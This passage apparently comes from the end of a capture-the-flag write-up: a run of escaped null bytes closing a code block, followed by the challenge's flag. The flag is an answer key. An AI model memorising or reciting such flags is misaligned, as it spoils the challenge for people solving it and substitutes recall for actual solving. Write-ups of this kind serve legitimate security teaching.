0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
## Flag: CTF{DoesAnyoneEvenReadFlagsAnymore?}